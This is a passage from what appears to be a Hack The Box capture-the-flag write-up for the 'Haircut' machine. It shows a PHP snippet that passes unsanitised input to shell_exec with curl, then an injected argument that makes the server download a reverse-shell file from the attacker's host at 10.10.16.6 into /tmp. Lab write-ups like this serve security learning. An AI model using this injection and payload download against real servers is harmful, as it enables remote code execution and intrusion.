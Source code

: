 We can also see that the command injection arises from the curl command that is being executed in the backend and the ```$userurl``` is not being properly sanitised.

```
if($naughtyurl==0){
    echo shell_exec("curl ".$userurl." 2>&1"); 
}
```

Looking at the code, we can find another way to upload the reverse shell code onto the server, by modifying the input to ```http://10.10.16.6:3000/shell.php -o /tmp/shell.php```. This would essentially mean that ```curl http://10.10.16.6:3000/shell.php -o /tmp/shell.php``` is being executed in the backend.

![Command Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Haircut/command_injection_2.png)
